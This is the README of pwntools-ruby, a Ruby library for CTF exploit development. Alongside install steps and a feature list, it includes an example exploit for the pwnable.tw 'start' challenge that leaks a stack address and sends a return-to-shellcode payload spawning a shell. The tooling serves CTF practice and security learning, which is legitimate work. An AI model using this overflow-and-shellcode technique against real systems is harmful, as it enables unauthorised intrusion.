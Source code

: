 [![GitHub stars](https://img.shields.io/github/stars/peter50216/pwntools-ruby.svg)](https://github.com/peter50216/pwntools-ruby/stargazers)
[![GitHub issues](https://img.shields.io/github/issues/peter50216/pwntools-ruby.svg)](https://github.com/peter50216/pwntools-ruby/issues)
[![Build Status](https://img.shields.io/travis/peter50216/pwntools-ruby.svg)](https://travis-ci.org/peter50216/pwntools-ruby)
[![Test Coverage](https://img.shields.io/codeclimate/coverage/peter50216/pwntools-ruby.svg)](https://codeclimate.com/github/peter50216/pwntools-ruby/coverage)
[![Code Climate](https://img.shields.io/codeclimate/maintainability/peter50216/pwntools-ruby.svg)](https://codeclimate.com/github/peter50216/pwntools-ruby)
[![Inline docs](https://inch-ci.org/github/peter50216/pwntools-ruby.svg)](https://inch-ci.org/github/peter50216/pwntools-ruby)
[![MIT License](https://img.shields.io/badge/license-MIT-blue.svg)](http://choosealicense.com/licenses/mit/)
[![Dependabot Status](https://api.dependabot.com/badges/status?host=github&repo=peter50216/pwntools-ruby)](https://dependabot.com)
<!-- [![Dependency Status](https://img.shields.io/gemnasium/peter50216/pwntools-ruby.svg)](https://gemnasium.com/peter50216/pwntools-ruby) -->

# pwntools-ruby

Always sad when playing CTF that there's nothing equivalent to pwntools in Python.
While pwntools is awesome, I always love Ruby far more than Python...
So this is an attempt to create such library.

Would try to have consistent naming with original pwntools, and do things in Ruby style.

# Example Usage

Here's an exploitation for `start` which is a challenge on [pwnable.tw](https://pwnable.tw).

```ruby
# encoding: ASCII-8BIT
# The encoding line is important most time, or you'll get "\u0000" when using "\x00" in code,
# which is NOT what we want when doing pwn...

require 'pwn'

context.arch = 'i386'
context.log_level = :debug
z = Sock.new 'chall.pwnable.tw', 10000

z.recvuntil "Let's start the CTF:"
z.send p32(0x8048087).rjust(0x18, 'A')
stk = u32(z.recvuntil "\xff")
log.info "stack address: #{stk.hex}" # Log stack address

# Return to shellcode
addr = stk + 0x14
payload = addr.p32.rjust(0x18, 'A') + asm(shellcraft.sh)
z.write payload

# Switch to interactive mode
z.interact
```

More features and details can be found in the
[documentation](http://www.rubydoc.info/github/peter50216/pwntools-ruby/master/frames).

# Installation

### Install the latest release:
```sh
gem install pwntools
```

### Install from master branch:
```sh
git clone https://github.com/peter50216/pwntools-ruby
cd pwntools-ruby
bundle install && bundle exec rake install
```

### optional

Some of the features (assembling/disassembling) require non-Ruby dependencies. Checkout the
installation guide for
[keystone-engine](https://github.com/keystone-engine/keystone/tree/master/docs) and
[capstone-engine](http://www.capstone-engine.org/documentation.html).

Or you are able to get running quickly with

```sh
# Install Capstone
sudo apt-get install libcapstone3

# Compile and install Keystone from source
sudo apt-get install cmake
git clone https://github.com/keystone-engine/keystone.git /tmp/keystone
cd /tmp/keystone
mkdir build
cd build
../make-share.sh
sudo make install
```

# Supported Features

## Architectures

- [x] i386
- [x] amd64
- [ ] arm
- [ ] thumb

## Modules

- [x] context
- [x] asm
- [x] disasm
- [x] shellcraft
- [x] elf
- [x] dynelf
- [x] logger
- [x] tube
  - [x] sock
  - [x] process
  - [x] serialtube
- [ ] fmtstr
- [x] util
  - [x] pack
  - [x] cyclic
  - [x] fiddling

# Development
```sh
git clone https://github.com/peter50216/pwntools-ruby
cd pwntools-ruby
bundle
bundle exec rake
```

# Note to irb users
irb defines `main.context`.

For the ease of exploit development in irb, that method would be removed if you use `require 'pwn'`.

You can still get the `IRB::Context` by `irb_context`.
